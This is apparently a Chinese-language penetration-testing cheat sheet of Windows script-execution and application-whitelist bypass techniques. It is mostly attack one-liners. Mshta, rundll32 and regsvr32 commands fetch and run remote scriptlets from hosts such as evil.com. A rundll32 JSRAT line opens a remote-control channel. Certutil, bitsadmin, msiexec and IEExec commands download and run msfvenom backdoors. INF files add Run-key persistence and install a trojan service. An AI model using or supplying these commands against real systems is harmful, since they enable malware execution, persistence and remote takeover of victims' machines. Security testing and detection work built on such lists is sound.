 windows script example in penetration
----

#### 1.	powershell ####

	powershell -executionpolicy bypass ./powershell_script.ps1

#### 2. VBS ####

默认可以直接在机器上运行，命令行下可以通过`cscript.exe`执行

	cscript.exe vbs_script.vbs
	vbs_script.vbs


#### 3. csc(.cs c#) ####

首先通过`csc.exe`进行编译c#为`exe`，然后通过`InstallUtil.exe`进行程序执行

	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:PEL.exe InstallUtilBypass.cs

	InstallUtil.exe /logfile= /LogToConsole=false /U PEL.exe

#### 4. Jscript(.js) ####

可以通过`wscript.exe`、`cscript.exe`以及直接运行，主要通过`ActiveXObject()`创建对应的对象`WScript.shell`、`Shell.Application`.

	cscript.exe/wscript.exe jscript.js
	jscript.js

JScript参考链接：http://www.yuanma.net/Manual/JavaScript/

https://evi1cg.me/archives/Run_JSRAT.html


通过访问wtf来获取payload, 最后是通过rundll32来执行的payload，不需要使用powershell

#### 5. Mshta ####

HTA（HTML Application)，可以嵌入`JScript`和`VBScript`，后缀名为`.hta`时可以直接运行，使用命令行`mshta`时，后缀可以使用`htm`,`xml`. 执行时带上绝对路径方可运行，否则无效。

	mshta vbscript:Close(Execute("GetObject(""script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/mshta.sct"").Exec()"))

	mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/mshta.sct").Exec();close();
	
	mshta http://site.com/run.hta

#### 6. Rundll32 ####

server端执行https://github.com/Ridter/MyJSRat .利用时需要注意`RunHTMLApplication`后面是有一个空格。

	rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://127.0.0.1:8081/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}%  #JSRAT

	rundll32 AllTheThings.dll,EntryPoint 

	rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";o=GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/mshta.sct");o.Exec();window.close();	
	
	rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http://urlto/jsbackdoor.wsc")

通过`system`的一些`dll`可以扩展很多绕过方法：

	rundll32 url.dll, OpenURL file://c:\windows\system32\calc.exe

	rundll32 url.dll, OpenURLA file://c:\windows\system32\calc.exe

	rundll32 url.dll, FileProtocolHandler calc.exe
	
	rundll32 C:\Windows\system32\shell32.dll,OpenAs_RunDLL C:\ProgramData\x64.1

修改注册表项

reg.inf

    [Version]
    
    Signature="$WINDOWS NT$"
    
    [DefaultInstall]
    
    AddReg=My_AddReg_Name
    
    DelReg=My_DelReg_Name
    
    [My_DelReg_Name]
    
    HKLM,SOFTWARE\Microsoft\Windows\CurrentVersion\Run,KAVRun

    rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 c:/reg.inf

添加服务

srv.inf

    [Version]
    Signature="$WINDOWS NT$"
    [DefaultInstall.Services]
    AddService=inetsvr,,My_AddService_Name
    [My_AddService_Name]
    DisplayName=Windows Internet Service
    Description=提供对 Internet 信息服务管理的支持。
    ServiceType=0x10
    StartType=2
    ErrorControl=0
    ServiceBinary=%11%\muma.exe

	rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 c:/srv.inf

https://github.com/redcanaryco/atomic-red-team/tree/master/Windows/Payloads/AllTheThings

#### 7. Regsvcs/Regasm

白名单绕过方法，通过加载DLL(.Net/C#).	(尝试在即编写dll，一直失败）, `regsvcs`注册`dll`需要签名。

	x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe AllTheThings.dll

	x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe AllTheThings.dll


	x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U AllTheThings.dll

	x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

https://github.com/redcanaryco/atomic-red-team/tree/master/Windows/Payloads/AllTheThings

https://gist.githubusercontent.com/jbarcia/a5ba8cf3badebf3c802f83832eda1059/raw/39aa6341cda40500a02cfc069b6d6ec45f1c5028/evil.cs(在编译这个脚本时，需要更改系统语言区域为英语/美国，非unicode，编译就不会报错了)

	rundll32 evil.dll,EntryPoint

http://www.codesec.net/view/443056.html

#### 8. Regsvr32

本地脚本加载运行

	regsvr32.exe /s /u /i:payload.sct scrobj.dll

远程脚本加载运行

	regsvr32.exe /s /u /i:http://evil.com/payload.sct scrobj.dll
	
	regsvr32 /s /n /u /i:http://urlto/JSRAT.sct scrobj.dll

	regsvr32.exe  payload.dll	# DLLregisterServer
	regsvr32.exe  /u payload.dll # DLLUnregisterServer

#### 9. odbcconf/Msbuild

	odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}

	cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"

windows 文件下载

	certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe 1.exe
	certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe delete

#### 10.bitsadmin

	cmd.exe /c bitsadmin /transfer d90f http://vps/a %APPDATA%d90f.exe&%APPDATA%d90f.exe&del %APPDATA%d90f.exe

http://vps/a 为通过msfvenom生成payload


#### 11.msiexec/IEEXEC/msxsl

	msiexec /q /i http://site.com/payloads/calc.png
	
	C:\Windows\Microsoft.NET\Framework\v2.0.50727> caspol -s off

	C:\Windows\Microsoft.NET\Framework\v2.0.50727> IEExec http://192.168.3.1/test.exe
	
	msxsl https://website.com/scripts/demo.xml https://website.com/scripts/exec.xsl
	
其中calc.png为通过msfvenom生成的msi后门程序,test.exe为msfvenom生成的exe后门


#### MISC

install metasploit：

	curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
